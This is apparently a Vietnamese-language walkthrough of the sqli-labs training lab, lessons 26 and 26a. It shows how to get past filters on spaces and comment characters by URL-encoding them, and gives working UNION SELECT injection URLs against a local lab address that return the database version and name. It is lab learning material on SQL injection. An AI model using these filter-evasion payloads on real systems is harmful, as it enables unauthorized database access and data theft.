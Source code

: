 # Những việc làm được với lesson-26
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-26

![](../images/lesson26/screen_4.png)

khi ta đăng nhập vào thì ta thấy nó rất giống bài 25 ta sẽ đi tìm cấu trúc của bài này 

![](../images/lesson26/screen.png

Ta thử như các bài trước thì kết quả vẫn như thế và không có được kết quả gì cả, Vậy ta có thể thay được một số ký bằng cách khác. 

![](../images/lesson15/screen_7.png)

Những ký tự comment và spaces đã không sử dụng được. ta sẽ thay các ký tự như sau Ký tự khoảng trống thành `%a0` còn ký tự comment `'` thành `%27` 

Ta sẽ được kết quả như sau 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A00,@@version,1%20%26%26%a0%271
```

![](../images/lesson15/screen_8.png)

Lấy tên DB hiện tại 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A00,database(),1%20%26%26%a0%271
```

![](../images/lesson15/screen_8.png)

với cách này thì các bạn có thể select bằng cách giống như với bài 25 rồi nhé ^^

# Bài 26a
```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,database(),2%A0%26%26%A0%271
```

![](../images/lesson26/screen_10.png)


Tương tự như với bài 26 thì nó chỉ khác nhau bằng với cấu trúc của nó mà thôi. ta có thể show được dữ liệu bằng các cách thay câu truy vấn vào database() là được ví dụ với version sẽ là 

```
http://192.168.80.225/sqli-labs/Less-26/?id=0%27%A0UNION%A0SELECT%A01,@@version,2%A0%26%26%A0%271
```


